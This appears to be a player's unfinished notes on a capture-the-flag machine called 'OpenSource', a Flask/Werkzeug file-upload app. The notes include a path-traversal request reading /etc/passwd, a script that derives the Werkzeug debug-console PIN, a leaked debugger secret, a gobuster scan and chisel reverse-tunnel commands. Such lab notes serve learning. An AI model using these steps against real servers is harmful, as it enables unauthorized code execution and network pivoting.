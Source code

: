 # <span style="color:[COLOR]">Machine #27 OpenSource</span>  


## <span style="color:[COLOR]">Checklist 🤓   

- [x] It might be SSTI
- [x] There could be a way to upload a file onto the web server ( a php file ) and executing it by visiting it.
- [x] The `/console` directory.
- [ ] Try to accomplish port forwarding somehow so that I would be able to open up the local web server much easier.
- [ ] Research the Gitea version.

<br/><br/>


## <span style="color:[COLOR]">What Do We Have? 🤔🤔 
* `'/app/public/uploads/'`.
* The backend is Python.
* It's opensource (obviously).
* I have the code.
* It shows me an error when I press upload without supplying any file.
* I think I can see the error because DEBUG mode is true.
* The upload page seems to be using `Werkzeug`.
* I think we're in a testing environment (Not sure) in the demo that they provided.
* A local web server that I can only access through the container I got into.
* There's a `swagger` data in a file called `swagger.v1.json` which means I have all the api endpoints and there data.
* There's also a home page in the local web server that shows me that there's also a possibility that there exists a login and register page. But life would be so much easier if I can open the website on the browser that's why I'll play a bit with port forwarding.
* A technology used called "Gitea" version 1.16.6

<br/><br/>


## <span style="color:[COLOR]">Random Notes👀
* There are two methods `get_file_name` and `get_unique_file_name` and only the first one is being used.
* What the hell is this!   
```html
   <script>
      var CONSOLE_MODE = false,
          EVALEX = true,
          EVALEX_TRUSTED = false,
          SECRET = "QNJYyPKHPwUQu1DNLaas";
    </script>
```

```
GET /upcloud?__debugger__=yes&cmd=resource&f=../../../../../../../../etc/passwd
```
  
* The code that might get me the pin of the console  
```python
import hashlib
from itertools import chain
probably_public_bits = [
    'flask',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None), //// cc289382c632
]

private_bits = [
    '2485377892360', #2485377892360# bstr(uuid.getnode()),  /sys/class/net/ens33/address ///02:42:AC:11:00:08 
    'cc289382c632'# get_machine_id(), /etc/machine-id  /// cc289382c632
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```  
* I need to generate the PIN but I don't have the username of the user who created the flask process and I also need other info that I should get through some kind of a directory traversal.  

```python

def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")


def recursive_replace(search, replace_me, with_me):
    if replace_me not in search:
        return search
    return recursive_replace(search.replace(replace_me, with_me), replace_me, with_me)
 
```   

```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))  
```



gobuster dir -u 10.10.11.164 -x 'txt,md,jpg,php,html' -w /usr/share/seclists/Discovery/Web-Content/big.txt -b '404,403'






* On my machine I should put the following command `./chisel server -p 8000 --reverse`.
* On the victim `./chisel client 10.10.14.9:8000 R:80:10.10.11.164:3000`
* Then after I do that you just go and open `http://localhost` on the browser and it will open it. YES!!!!
* It's like using a reverse proxy for port forwarding.
<br/><br/>  


## <span style="color:[COLOR]">How Did I Own This Shit 😎🥳  

<br/><br/>



## <span style="color:[COLOR]">Where I Got Stuck?😡😧  


<br/><br/>



## <span style="color:[COLOR]">What Did I learn from this Machine?👀  


<br/><br/>



## <span style="color:[COLOR]">Writeups ✍🏽📓   


<br/><br/>

<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->